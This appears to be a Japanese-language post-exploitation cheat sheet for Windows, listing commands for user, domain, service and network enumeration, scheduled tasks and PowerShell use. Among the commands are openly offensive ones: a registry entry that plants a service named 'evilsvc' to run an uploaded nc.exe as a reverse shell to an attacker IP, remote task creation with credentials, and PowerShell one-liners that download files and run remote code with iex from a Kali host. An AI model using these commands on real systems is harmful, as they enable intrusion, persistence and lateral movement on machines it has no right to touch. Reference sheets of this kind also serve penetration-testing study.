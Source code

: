 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
    
    tasklist /m
```

* schtasks

```bat
    schtasks /?
    schtasks /Create /?
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    # /F: 指定したタスクが既に存在する場合、タスクを強制的に作成し、警告を抑制
    # /RL: ジョブの実行レベルを設定
    
    #タスク作成
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat
    # タスク実行
    schtasks /run /tn <タスク名>
    # タスクの削除
    schtasks /delete /f /tn <タスク名>
    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ドメイン情報

``` bat
    #　ドメコン名とかの取得
    nltest /dsgetdc:<domain>
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | find "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*  
　  # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe XXX.XX.XX.XX PPPP -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0 /f
```

* sc

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # サービス情報の表示
    sc qc <service_name>
    # サービス起動
    sc start <service_name>
    # サービス停止
    sc stop <service_name>
```

* wmic

``` bat
    #システム情報
    wmic computersystem LIST full
    #サービス検索
    wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
    #ファイル検索
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE
    #プロセス操作
    wmic process call create ‘C:¥Windows¥System32¥notepad.exe‘
```

* whoami

``` bat
    whoami
    #権限表示
    whoami /priv
    #グループ表示
    whoami /group
```

## PowerShell

* バージョン確認

``` powershell
    $PsVersionTable
```

* ファイルダウンロード

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc.exe" -OutFile "nc.exe")
    
    iwr -Uri http://XXX.XXX.XXX.XXX/<file_name> -OutFile "<file_path>\<file_name>>"
    
    iex(new-object net.webclient).downloadstring('http://XXX.XXX.XXX.XXX/<file_name>')
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* プロセス操作

``` ps
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ‘C:¥Windows¥System32¥notepad.exe’
```